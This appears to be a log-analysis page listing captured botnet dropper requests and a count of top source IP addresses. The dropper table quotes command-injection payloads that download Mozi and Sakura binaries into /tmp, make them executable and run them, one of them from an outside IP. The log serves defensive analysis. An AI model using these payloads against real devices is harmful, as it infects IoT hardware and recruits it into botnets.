 ## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                                                                                                    |
|:----------------|:---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 45.64.226.141   | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                                      |
| 103.207.124.114 | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                                      |
| 221.14.14.162   | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                                      |
| 176.65.142.222  | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20a-r.m-7.Sakura%3B%20wget%20http%3A%2F%2F199.195.248.181%2Fa-r.m-7.Sakura%3B%20chmod%20777%20%2A%3B%20.%2Fa-r.m-7.Sakura%20tbk HTTP/1.1 |

## list_of_source_IP_addresses
|     |   number_of_occurence | remote_addr     |
|----:|----------------------:|:----------------|
|   0 |                   490 | 193.41.206.176  |
|   1 |                   155 | 193.41.206.202  |
|   2 |                   103 | 78.153.140.179  |
|   3 |                    91 | 139.162.7.59    |
|   4 |                    74 | 193.68.89.10    |
|   5 |                    69 | 45.148.10.90    |
|   6 |                    58 | 92.255.57.58    |
|   7 |                    58 | 78.153.140.177  |
|   8 |                    51 | 78.153.140.224  |
|   9 |                    47 | 195.178.110.163 |
|  10 |                    45 | 103.96.75.159   |
|  11 |                    45 | 165.154.227.138 |
|  12 |                    43 | 193.68.89.51    |
|  13 |                    35 | 195.170.172.128 |
|  14 |                    25 | 34.86.212.119   |
|  15 |                    24 | 141.255.166.90  |
|  16 |                    24 | 46.19.143.10    |
|  17 |                    24 | 45.144.212.139  |
|  18 |                    23 | 52.34.76.65     |
|  19 |                    23 | 205.169.39.57   |
|  20 |                    20 | 64.112.74.158   |
|  21 |                    18 | 80.82.77.202    |
|  22 |                    17 | 209.38.201.16   |
|  23 |                    17 | 196.251.72.73   |
|  24 |                    17 | 165.22.70.252   |
|  25 |                    16 | 104.248.142.77  |
|  26 |                    14 | 66.249.79.205   |
|  27 |                    14 | 93.174.93.12    |